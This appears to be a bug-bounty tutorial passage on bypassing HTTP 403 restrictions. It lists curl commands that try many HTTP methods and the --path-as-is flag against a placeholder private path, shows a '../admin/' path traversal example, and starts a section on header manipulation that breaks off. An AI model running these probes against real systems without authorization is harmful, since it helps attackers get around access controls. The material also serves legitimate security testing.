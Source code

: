 1. HTTP Method Tampering
Many servers apply access controls primarily to common HTTP methods like GET or POST. By switching to less commonly used methods such as PUT, PATCH, DELETE or TRACE you may bypass improperly configured security rules that don’t account for these alternatives.

Examples

curl -X OPTIONS --path-as-is https://example.com/private/
curl -X GET --path-as-is https://example.com/private/
curl -X POST --path-as-is https://example.com/private/
curl -X PUT --path-as-is https://example.com/private/
curl -X DELETE --path-as-is https://example.com/private/
curl -X PATCH --path-as-is https://example.com/private/
curl -X HEAD --path-as-is https://example.com/private/
curl -X TRACE --path-as-is https://example.com/private/
curl -X CONNECT --path-as-is https://example.com/private/
curl -X PROPFIND --path-as-is https://example.com/private/
curl -X MKCOL --path-as-is https://example.com/private/
curl -X COPY --path-as-is https://example.com/private/
curl -X MOVE --path-as-is https://example.com/private/
curl -X LOCK --path-as-is https://example.com/private/
curl -X UNLOCK --path-as-is https://example.com/private/
curl -X SEARCH --path-as-is https://example.com/private/
-X: Switch HTTP method.
— path-as-is: Prevent URL normalization (critical for encoded paths).
What is — path-as-is?
When you send a request with curl it normally cleans up the URL path for you. But sometimes hackers or bug bounty hunters want to send weird or broken paths to see if they can bypass security.

The — path-as-is option tells curl: Send the path exactly how I wrote it — don’t fix or change it.

Examples

To access https://example.com/../admin/

Without — path-as-is:

curl -X GET https://example.com/../admin/
Gets normalized to: https://example.com/admin/

With — path-as-is:

curl -X GET --path-as-is https://example.com/../admin/
Sends exactly https://example.com/../admin/ Which might bypass a 403!

Pro Tip: Use the OPTIONS method to discover the allowed HTTP methods on a server. Then leverage Burp Suite’s Intruder to automate brute-forcing and test unsupported methods for potential vulnerabilities.

2. Header Manipulation
When testing for 403 bypasses or other access control misconfigurations, attackers often manipulate HTTP headers to trick the server into granting access. Below are some commonly abused headers, their typical values and what they attempt to achieve

Examples

# Common Headers Used for Bypass Attempts
